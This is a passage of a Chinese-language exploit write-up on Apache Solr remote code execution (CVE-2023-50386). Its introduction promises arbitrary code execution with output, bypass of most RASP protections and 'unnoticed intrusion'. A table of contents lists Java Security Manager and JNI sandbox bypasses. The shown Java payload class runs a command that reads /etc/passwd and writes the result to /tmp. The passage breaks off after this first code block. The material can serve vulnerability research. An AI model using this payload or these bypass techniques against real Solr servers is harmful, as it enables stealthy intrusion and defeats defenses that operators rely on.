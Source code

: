 

# Apache Solr 远程代码执行漏洞（CVE-2023-50386）深入利用与验证

> 在 https://xz.aliyun.com/t/13637 中，漏洞作者已经详细介绍了漏洞的原理、分析及复现过程，这里就不再 CV 搬运。在漏洞作者的文章中，仅提供了简单的代码执行（创建文件），在本文中，我们实现了任意代码执行和回显，并且代码可以实现大多数 RASP 的绕过，也不会产生网络连接，某种意义上可以完成无感入侵。本文涉及代码均在 vvmdx 仓库。

目录：

Java Security Manager 绕过

-   ProcessBuilder 测试
    
-   自定义 ClassLoader 绕过
    
-   反射利用 getProtectionDomain0 绕过
    
-   Unsafe 绕过 JDK17 的限制
    
-   反射利用 ProcessImpl 绕过
    

JNI 绕过 RASP

-   一次失败的尝试
    
-   一次成功的尝试
    

命令执行回显

后记

## Java Security Manager 绕过

Solr 使用了 Java Security Manager，因此执行代码会受到沙箱限制

### ProcessBuilder 测试

我们写一个简单的命令执行

```bash
package zk_backup_0.configs.conf1;

import java.io.*;

public class Exp {
    static {
        try {
            String command = "head -n 5 /etc/passwd";
            ProcessBuilder builder = new ProcessBuilder(command.split("\\s+"));
            Process process = builder.start();
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line = reader.readLine();
            String res = "";
            while (line != null) {
                res = res + line + "\n";
                line = reader.readLine();
            }
            reader.close();
            System.out.println(res);
            new File("/tmp/success").createNewFile();
            FileOutputStream stream = new FileOutputStream("/tmp/success");
            stream.write(res.getBytes());
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```